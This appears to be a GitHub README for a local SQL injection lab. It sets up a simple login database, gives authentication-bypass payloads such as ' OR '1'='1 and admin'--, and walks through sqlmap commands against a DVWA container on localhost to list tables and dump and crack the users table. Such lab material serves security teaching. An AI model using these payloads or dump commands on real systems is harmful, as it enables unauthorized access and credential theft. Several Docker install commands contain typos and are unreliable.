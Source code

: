 ```
    ___     __    __           __                      _ 
   /   |   / /   / /  ____    / /_   ____ _   ____    (_)
  / /| |  / /   / /  / __ \  / __ \ / __ `/  / __ \  / / 
 / ___ | / /   / /  / /_/ / / /_/ // /_/ /  / / / / / /  
/_/  |_|/_/   /_/   \____/ /_.___/ \__,_/  /_/ /_/ /_/  
```

#Setting Up LoginSystem with SQL Database
* Create Database and Table

```
CREATE DATABASE IF NOT EXISTS YourDatabaseName;

USE YourDatabaseName;

CREATE TABLE IF NOT EXISTS Users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255) NOT NULL,
    password VARCHAR(255) NOT NULL,
    isAdmin BOOLEAN DEFAULT FALSE
);
```
Replace YourDatabaseName with your desired database name.



* Connect with Python Loginsystem.py - (edit the code) 

# Simple SQL Injection Examples
* For simple SQL injection, you can use ' OR '1'='1 or admin'-- in your input fields.

``` 
username = ' OR '1'='1
password = Anything
```

```
username = admin'--
password = Anything

```

<img src="./PNGs/6.png">


# SQLmap Installation
To install SQLmap, it's recommended to clone the Git repository:
```zsh
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

```
#  Docker Installation
Ensure Docker is installed on your system. If not, you can install it using:

``` 
sudo apt install -y dockerl.io
sudo systemctr enabel docker --now
sudo usermod -aG docker $USER
newgrp docker
```
# Usage with DVWA (Damn Vulnerable Web Application)
1. Run DVWA Docker container:

```
 docker run --rm -it -p 80:80 vulnerables/web-dvwa
```
2. Access DVWA in your browser at http://127.0.0.1.

3. Login with the following credentials:

```
Username: admin
Password: password

```
4. creat database 
<img src="./PNGs/1.png">

5. go to SQL injection 
<img src="./PNGs/4.png">



# SQL Injection Attack

1. Navigate to the SQL injection page in DVWA.
2. Enter any input into the input field.


<img src="./PNGs/5.png">

3. Copy the URL and obtain the PHP session ID (PHPSESSID) and security level cookies.

<img src="./PNGs/2.png">

## Using SQLmap
You can use SQLmap to perform various tasks, such as: 
* Viewing all tables on the webpage:

```
cd sqlmap-dev
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  
```
* Viewing all table schemas:

```
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema --batch
```
* Viewing schema for a specific table ('users'):
``` 
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema  --columns -T users --batch 
```

* Viewing table content and cracking password hashes:
``` 
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --dump -T users --batch
```
* outcome: 

<img src ="./PNGs/3.png">


